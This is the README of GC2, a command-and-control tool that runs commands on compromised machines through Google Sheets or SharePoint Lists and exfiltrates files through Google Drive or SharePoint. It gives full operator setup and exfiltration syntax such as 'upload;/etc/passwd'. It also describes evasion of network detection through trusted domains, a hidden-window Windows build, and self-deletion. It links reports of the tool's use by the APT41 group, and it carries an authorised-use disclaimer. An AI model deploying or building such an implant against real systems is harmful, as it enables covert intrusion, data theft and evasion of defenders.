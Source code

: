 # GC2

<p align="center">
  <img alt="Logo" src="img/GC2.png" height="30%" width="30%">
</p>

GC2 (Google Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using Google Sheet or Microsoft SharePoint List and exfiltrate files using Google Drive or Microsoft SharePoint Document.

# Why

This project has been developed to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Google and Microsoft's domains (like *.google.com) to make network detection more difficult.

# Workflow

## Google
<p align="center">
  <img alt="Work Flow" src="img/Google_workflow.png" height="60%" width="60%">
</p>

## Microsoft
<p align="center">
  <img alt="Work Flow" src="img/Microsoft_workflow.png" height="60%" width="60%">
</p>

# Features

- **Command execution** using Google Sheet or Microsoft SharePoint List as a console
- **Download files** on the target using Google Drive or Microsoft SharePoint Document
- **Data exfiltration** using Google Drive or Microsoft SharePoint Document
- Self-kill switch and **auto-delete** from the target machine

## Command execution

### Google

A Google Sheet will be automatically created by the C2. Once created you can interact with the compromised system as shown below.

   <p align="center">
        <img alt="Sheet Permission" src="img/Google_usage.png" height="60%" width="60%">
    </p>

### Microsoft

A Microsoft SharePoint List will be automatically created by the C2. Once created you can interact with the compromised system as shown below.

   <p align="center">
        <img alt="Sheet Permission" src="img/Microsoft_usage.png" height="60%" width="60%">
    </p>

## Data exfiltration file

Special command is reserved to exfiltrate files form the target system.

 ```
From Target to Google Drive/Microsoft SharePoint Document
upload;<local path>
Example:
upload;/etc/passwd
 ```

Note: files with the same name are automatically overwritten.

## Download file

Special command is reserved to download files to the target system.

#### Google
 ```
 From Google Drive to Target
download;<google drive file id>;<local path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

#### Microsoft
Note: Files need to be saved in the SharePoint root folder, usually "Documents"
 ```
 From SharePoint to Target
download;<SharePoint file path>;<local path>
Example:
download;download.txt;/home/user/downloaded.txt
 ```

## Exit

By sending the *exit* command, the C2 will kill and delete itself from the target system.

PS: From *os* documentation:
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case, the symlink is deleted.

# Set up

This C2 support both Google (Google Sheet + Google Drive) and Microsoft (SharePoint Lists + SharePoint Document) services. To use the C2 you need to set up both the local and cloud configuration.

## Cloud config

### Google

1. **Create a new Google "service account"**
 
    Create a new Google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account. 

2. **Enable Google Sheet API and Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go). 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and share it (as Editor) with the Service Account (by using its email).
    
    <p align="center">
        <img alt="Sheet Permission" src="img/Google_Sheet_permissions.png" height="60%" width="60%">
    </p>
    
    Create a new Google Drive folder and share it (as Editor) with the Service Account (by using its email).
    
    <p align="center">
        <img alt="Sheet Permission" src="img/Google_Drive_permissions.png" height="60%" width="60%">
    </p>    

### Microsoft

To interact with Microsoft services you will first need a Business subscription (you can get one for free for the first 30 days).

1. **Create an Azure Application**

   Create a new Azure Aapplication as described here [https://learn.microsoft.com/en-us/graph/auth-v2-service?tabs=http](https://learn.microsoft.com/en-us/graph/auth-v2-service?tabs=http)

    <p align="center">
        <img alt="Sheet Permission" src="img/Microsoft_Azure_application.png" height="60%" width="60%">
    </p>

   After creating the new application, enable the following Graph APIs:
   - Sites.ReadWrite.All
   - Files.ReadWrite.All

    <p align="center">
        <img alt="Sheet Permission" src="img/Microsoft_Azure_application_API.png" height="60%" width="60%">
    </p>

### Local config

1. **Download the C2**

    The C2 can be cloned directly from GitHub:

    ```
    git clone https://github.com/looCiprian/GC2-sheet
    cd GC2-sheet
    ```

5. **Configure the C2**

    To configure the C2 you need to modify the `cmd/options.yml` file. The C2 supports both Google and Microsoft services, mixing them is also possible.

   *Only Google services*

    ```
   CommandService: "Google" # Google Sheet will be used as command service to pull commands and push commands' output
   FileSystemService: "Google" # Google Drive will be used as file system to download and exfiltrate files
   GoogleServiceAccountKey : "1234567890" # your escaped json file
   GoogleSheetID: "0987654321" # your Google Sheet ID (can be found in the URL)
   GoogleDriveID: "1234554321" # your Google Drive folder ID (can be found in the URL)
   #RowId: 1 # optional, specify from which (Google Sheet or SharePoint List) row the beacon should pull new commands
   #Proxy: "http://127.0.0.1:8080" # optional, specify the proxy
   Verbose: true # optional, suggested for debugging purposes
    ```
   Your Google service account key must be escaped before pasting it in the configuration file. You can use the following command to escape it:

    ```
   cat key.json | jq -r @json | sed 's/\\n/\\\\n/g' | sed 's/\"/\\"/g'
   ```

   *Only Microsoft services*
   
   ```
   CommandService: "Microsoft" # Microsoft SharePoint List will be used as command service to pull commands and push commands' output
   FileSystemService: "Microsoft" # Microsoft SharePoint Document will be used as file system to download and exfiltrate files
   MicrosoftTenantID: "567890098765" # your Azure Tenant ID where the Azure Application was created
   MicrosoftClientID: "098765567890" # your Azure Application ID
   MicrosoftClientSecret: "1234509876" # your Azure Application Secret value
   MicrosoftSiteID: "0987612345" # # your SharePoint ID
   #RowId: 1 # optional, specify from which (Google Sheet or SharePoint List) row the beacon should pull new commands
   #Proxy: "http://127.0.0.1:8080" # optional, specify the proxy
   Verbose: true # optional, suggested for debugging purposes
   ```

   *Mixing Google and Microsoft services*
   
   ```
   CommandService: "Google" # Google Sheet will be used as command service to pull commands and push commands' output
   FileSystemService: "Microsoft" # Microsoft SharePoint Document will be used as file system to download and exfiltrate files
   GoogleServiceAccountKey : "1234567890" # your escaped json file
   GoogleSheetID: "0987654321" # your Google Sheet ID (can be found in the URL)
   GoogleDriveID: "1234554321" # your Google Drive folder ID (can be found in the URL)
   MicrosoftTenantID: "567890098765" # your Azure Tenant ID where the Azure Application was created
   MicrosoftClientID: "098765567890" # your Azure Application ID
   MicrosoftClientSecret: "1234509876" # your Azure Application Secret value
   MicrosoftSiteID: "0987612345" # # your SharePoint ID
   #RowId: 1 # optional, specify from which (Google Sheet or SharePoint List) row the beacon should pull new commands
   #Proxy: "http://127.0.0.1:8080" # optional, specify the proxy
   Verbose: true # optional, suggested for debugging purposes
   ```

6. **Build the executable**

   Few examples on how cross compile the C2 for different OS and architecture. 

    ```
   env GOOS=windows GOARCH=amd64 go build -ldflags "-s -w -H windowsgui"
   env GOOS=linux GOARCH=amd64 go build -ldflags "-s –w"
   env GOOS=darwin GOARCH=amd64 go build -ldflags "-s –w"
    ```

7. **Run**

    After compiling execute it.

    ```
    ./gc2-sheet
    ```
   
   The beacon will automatically create a new Google Sheet or Microsoft SharePoint List accordingly to your configuration.

## Troubleshooting

Most of the errors can be detected by setting the `verbose` flag to `true`. By default, the C2 does not generate any output or error information.

# DEF CON Slides + demo

[DEF CON Slide](https://drive.google.com/file/d/1cokEcUcxgR4pNRRF5lIXCsNW8kh4ME42/view?usp=sharing)

[Demo](https://youtu.be/n2dFlSaBBKo)

[Demo](https://youtu.be/pLfuZnLcR1o) by [Grant Collins](https://www.youtube.com/@collinsinfosec)

# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

# Support the project

**Pull request** or [![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)

## Contributors
[Paolo Conizzoli](https://github.com/paoloconi96)

# Articles related to this tool

[DEF CON 32](https://forum.defcon.org/node/249630); [DEF CON 32 Reddit](https://www.reddit.com/r/Defcon/comments/tx7tg2/mega_def_con_info_for_your_planning_enjoyment/)

[Google](https://services.google.com/fh/files/blogs/gcat_threathorizons_full_apr2023.pdf)

[The Hacker News](https://thehackernews.com/2023/04/google-uncovers-apt41s-use-of-open.html)

[Reddit](https://www.reddit.com/r/cybersecurity/comments/12u3wvl/top_cybersecurity_stories_for_the_week_of_041723/)

[LinkedIn](https://www.linkedin.com/pulse/hacking-tutorial-google-sheets-command-control-c2-server-maxwell-zhou/)

[Bleeping Computer](https://www.bleepingcomputer.com/news/security/hackers-abuse-google-command-and-control-red-team-tool-in-attacks/)

[Security Affairs](https://securityaffairs.com/144915/apt/china-apt41-tool-gc2.html)

[Icrewplay](https://tech.icrewplay.com/gc2-strumento-google-gruppo-cinese-apt41/?utm_content=cmp-true)

[Information Security Buzz](https://informationsecuritybuzz.com/google-uncovers-apt41-tools-targeting-media-and-job-sites/)

[Hackdig](http://en.hackdig.com/04/477620.htm)

[Hakin9](https://hakin9.org/gc2-command-and-control-application/)

[RedPacketSecurity](https://www.redpacketsecurity.com/gc2-a-command-and-control-application-that-allows-an-attacker-to-execute-commands-on-the-target-machine-using-google-sheet-and-exfiltrate-data-using-google-drive/)

[Cyware](https://cyware.com/news/apt41-uses-open-source-red-teaming-tool-gc2-9eaecb18)

[Kitploit](https://www.kitploit.com/2021/10/gc2-command-and-control-application.html)

News mentioning malware using the same concept:

[The Hacker News - Voldemort](https://thehackernews.com/2024/08/cyberattackers-exploit-google-sheets.html)
[Bleeping Computer - Voldemort](https://www.bleepingcomputer.com/news/security/new-voldemort-malware-abuses-google-sheets-to-store-stolen-data/)